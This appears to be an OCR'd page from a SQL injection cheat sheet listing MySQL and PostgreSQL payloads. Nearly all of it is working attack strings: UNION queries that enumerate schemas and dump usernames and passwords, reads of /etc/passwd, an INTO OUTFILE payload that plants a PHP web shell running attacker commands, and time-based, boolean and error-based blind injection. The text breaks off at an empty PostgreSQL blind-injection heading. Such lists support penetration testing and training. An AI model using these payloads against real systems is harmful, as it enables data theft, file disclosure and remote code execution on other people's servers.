 ## Database-Specific Payloads

### MySQL Payloads
```sql
-- Version detection
' UNION SELECT @@version--
' AND (SELECT @@version)=@@version--

-- Database enumeration
' UNION SELECT schema_name FROM information_schema.schemata--
' UNION SELECT database()--

-- Table enumeration
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()--

-- Column enumeration
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

-- Data extraction
' UNION SELECT username,password FROM users--
' UNION SELECT CONCAT(username,':',password) FROM users--

-- File operations
' UNION SELECT LOAD_FILE('/etc/passwd')--
' UNION SELECT '<?php system($_GET[\"cmd\"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--

-- Time-based blind
' AND SLEEP(5)--
' AND IF(1=1,SLEEP(5),0)--
' AND (SELECT SLEEP(5) FROM dual WHERE database()='target')--

-- Boolean-based blind
' AND (SELECT COUNT(*) FROM users)>0--
' AND ASCII(SUBSTRING((SELECT database()),1,1))>97--

-- Error-based
' AND EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT database())))--
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(database(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

### PostgreSQL Payloads
```sql
-- Version detection
' UNION SELECT version()--

-- Database enumeration
' UNION SELECT datname FROM pg_database--
' UNION SELECT current_database()--

-- Table enumeration
' UNION SELECT tablename FROM pg_tables WHERE schemaname='public'--

-- Column enumeration
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--

-- Data extraction
' UNION SELECT username,password FROM users--

-- File operations
' UNION SELECT pg_read_file('/etc/passwd')--

-- Time-based blind
```